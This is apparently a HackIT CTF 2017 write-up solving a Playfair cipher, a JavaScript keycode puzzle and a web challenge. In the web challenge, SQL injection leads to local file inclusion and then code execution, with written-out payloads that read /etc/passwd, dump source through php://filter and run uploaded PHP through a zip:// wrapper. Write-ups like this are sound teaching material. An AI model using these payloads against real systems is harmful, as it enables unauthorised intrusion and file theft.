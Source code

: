 <h1>HackIT CTF 2017 Writeups</h1>

<h3>Crypto (100):  </h3><br>
Description shows that its a playfair cipher with same original message, we can use some online tools to bruteforce it <br>
https://www.quinapalus.com/playfair.html worked just fine, after extracting each message we get the keyword to cipher it<br>
and finally we append the keywords together and put them in flag format <br>
<code><br>
h4ck1t{hackitisverydangercrypto}
</code>



<h3>Web (100): </h3><br>
This challenge is about SQLi+LFI and turn that to RCE with the upload function
Looks like easy sql injection, but after fetching all tables and columns, only thing we got is a table named countries with 3 columns, nothing interesting<br>
but when we try to get current query with SQLi using <b>SELECT info FROM information_schema.processlist</b><br>
We see the query : Select scripPath from countries where countryname='something'<br>
thats looks like an LFI to mee, when we inject <code>countryname='' union select '/etc/passwd' -- - </code> we get passwd file<br>
<br>I used PHP wrappers to pull index.php and country/fr.php<br>
using countryname='' union select 'php://filter/read=convert.base64-encode/resource=country/fr.php'<br>
when we get source code we can base64 decode it and see where the file uploaded are stored<br>
This is the final part, we need to leverage the upload to a Remote code execution, I used a zip file containing php and uploaded it<br>
and used a zip wrapper to execute my php, http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27zip://uploads/l33t.zip%23secret.php%27%20--%20- <br>
my php file contains scandir function thats equivalent to 'ls' <br>
i got this response :
<code>Array ( [0] => . [1] => .. [2] => .htaccess [3] => country [4] => index.php [5] => iulersiueruigfuihseruhgi.php [6] => static [7] => uploads )</code>
<br>
that php file looked interesting, let's open it : http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27php://filter/read=convert.base64-encode/resource=iulersiueruigfuihseruhgi.php%27%20--%20-
<br>
got this : PD9waHAKCiRmbGFnPSJoNGNrMXR7JFFMJkxGST1GUjEzTkQkfSI7Cgo/Pgo= <br>
base64 decode it and find some php code with flag<code>"$flag=h4ck1t{$QL&LFI=FR13ND$};"</code>
that's our flag

<h3>Web (150): </h3><br>
Hard task, was looking in all js files, then I found js/jquery.js which handles what the client types in main page<br>
After analyzing it we find an interesting function with this variable inside : <br>
<code>$m=[70,70,71,79,86,74,71,83,80,74,77,86,81,95];//times alt is pressed for Access Granted</code>
<br>Tried to decode ascii code random word <br> but there is an interesting condition if(key==$m[$c]-$c)<br>
tried to loop over the array and substract the index from each value to get <br>
$x=[70, 69, 69, 76, 82, 69, 65, 76, 72, 65, 67, 75, 69, 82]<br>
decoding the ascii : we get "FEELREALHACKER" <br>
put that in lower case and wrap it in flag format, and that's the flag <code>h4ck1t{feelrealhacker}</code>
